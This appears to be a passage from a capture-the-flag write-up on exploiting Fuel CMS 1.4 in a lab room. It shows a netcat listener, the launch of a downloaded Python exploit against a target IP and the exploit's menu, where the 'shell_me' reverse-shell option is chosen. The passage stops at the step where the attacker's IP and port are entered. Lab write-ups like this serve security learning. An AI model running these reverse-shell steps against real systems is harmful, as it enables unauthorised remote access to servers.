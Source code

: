 > 15.1 - <em>No answer required</em><br>
>> <code><strong>No answer needed</strong></code><br>
<p><br></p>




<br>
<br>
<br>











<pre><code>$ example
</code></pre>
<br>


<br>
<p>I did not continue using the file I downloaded from Exploit DB because it was presenting an error.</p>
<p>Proceeded copying the following:  <a href="https://gist.github.com/anir0y/8529960c18e212948b0e40ed1fb18d6d#file-fuel-cms-py">Vulnerability Capstone</a><br><br>
I set a listener.</p><br>

<pre><code>$ root@[Attack_IP]:~# nc -lvnp [Port]
</code></pre>
<br>

<p>Then I run the exploit with <code>python</code> against the <code>Target Machine</code>.</p>

<pre><code>$ python3 fuel-cms.py [Target_IP]
 ______         _ _____ ___  ___ _____ 
|  ___|        | /  __ \|  \/  |/  ___|
| |_ _   _  ___| | /  \/| .  . |\ `--. 
|  _| | | |/ _ \ | |    | |\/| | `--. \
| | | |_| |  __/ | \__/\| |  | |/\__/ /
\_|  \__,_|\___|_|\____/\_|  |_/\____/ 

Tested on 1.4                                       

Created by Ac1d

	Menu

exit     -	Exit app
shell_me -	Get a reverse shell (netcat) 
help     -	Show this help

fuelCMS$ shell_me
Enter your attacking machine IP:PORT $ [Attack_IP]:[Port]
   